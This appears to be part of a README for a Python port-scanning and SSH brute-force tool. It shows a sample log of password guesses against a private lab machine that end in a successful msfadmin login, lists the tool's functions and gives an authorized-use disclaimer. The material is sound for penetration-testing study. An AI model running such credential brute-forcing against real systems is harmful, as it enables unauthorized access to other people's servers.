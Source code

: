 ```
2025-01-15 12:02:46,345 - INFO - Connected (version 2.0, client OpenSSH_4.7p1)
2025-01-15 12:02:47,727 - INFO - Authentication (password) failed.
Failed SSH login with username: msfadmin and password: hi on 192.168.0.34:22
Attempting SSH login with username: msfadmin and password: admin on 192.168.0.34:22
2025-01-15 12:02:47,745 - INFO - Connected (version 2.0, client OpenSSH_4.7p1)
2025-01-15 12:02:50,196 - INFO - Authentication (password) failed.
Failed SSH login with username: msfadmin and password: admin on 192.168.0.34:22
Attempting SSH login with username: msfadmin and password: msfadmin on 192.168.0.34:22
2025-01-15 12:02:50,212 - INFO - Connected (version 2.0, client OpenSSH_4.7p1)
2025-01-15 12:02:50,342 - INFO - Authentication (password) successful!
Successful SSH login with username: msfadmin and password: msfadmin on 192.168.0.34:22

```
## Code Structure
- `display_logo()`: Displays the tool's logo.
- `scan_port(ip, port, timeout)`: Scans a single port and attempts banner grabbing.
- `port_scan(ip, start_port, end_port, timeout)`: Scans multiple ports concurrently.
- `load_credentials_from_file(filepath)`: Loads usernames or passwords from a file.
- `brute_force_ssh(ip, username_list, password_list, timeout)`: Performs SSH brute force using the provided credentials.

## Notes
- Use this tool responsibly and only on systems you are authorized to test.
- Ensure compliance with applicable laws and ethical guidelines.

## Author
- **Premkumar Soni**


